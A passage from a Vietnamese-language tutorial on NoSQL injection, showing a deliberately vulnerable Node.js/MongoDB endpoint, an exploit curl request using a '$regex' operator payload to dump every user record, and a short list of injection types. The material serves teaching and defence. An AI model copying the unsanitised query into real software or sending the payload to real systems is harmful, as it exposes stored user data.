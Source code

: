 2. **Ví dụ về lỗ hổng NoSQL Injection trong Node.js**:
   - Giả sử ta có một máy chủ web Node.js sử dụng MongoDB để lưu trữ thông tin người dùng. API `/api/v1/getUser` cho phép truy xuất thông tin người dùng dựa vào `username`.

   **Code mẫu**:
   ```javascript
   const express = require('express');
   const app = express();
   const { MongoClient } = require('mongodb');
   const uri = "mongodb://127.0.0.1:27017/test";
   const client = new MongoClient(uri);

   app.use(express.json());

   app.post('/api/v1/getUser', (req, res) => {
     client.connect((_, con) => {
       const cursor = con.db("example").collection("users")
                     .find({ username: req.body['username'] });
       cursor.toArray((_, result) => {
         res.send(result);
       });
     });
   });

   app.listen(3000, () => {
     console.log(`Listening...`);
   });
   ```
   - Khi gửi yêu cầu: `curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": "gerald1992"}'`, máy chủ sẽ trả về thông tin của người dùng `gerald1992`.

   **Lỗ hổng**: Máy chủ không kiểm tra kỹ `username` từ đầu vào, dẫn đến nguy cơ NoSQL Injection.

   **Ví dụ khai thác**:
   - Bằng cách sử dụng toán tử `$regex` để lấy tất cả người dùng:
     ```bash
     curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": {"$regex": ".*"}}'
     ```
   - Kết quả: Truy vấn sẽ trả về toàn bộ danh sách người dùng, vì `"username": {"$regex": ".*"}` sẽ khớp với tất cả các `username`.

3. **Các loại NoSQL Injection**:
   - **In-Band Injection**: Kẻ tấn công dùng cùng một kênh để khai thác NoSQL Injection và nhận dữ liệu trả về (như ví dụ trên).
   - **Blind Injection**: Kẻ tấn công không nhận được kết quả trực tiếp mà phải suy luận kết quả dựa trên phản hồi của máy chủ.
     - **Boolean-Based**: Tấn công sử dụng giá trị đúng/sai để phân biệt kết quả.
     - **Time-Based**: Tấn công làm cho máy chủ chờ trong một khoảng thời gian để phân biệt kết quả đúng/sai.

---
# 3. Khai thác lỗ hổng vượt qua xác thực
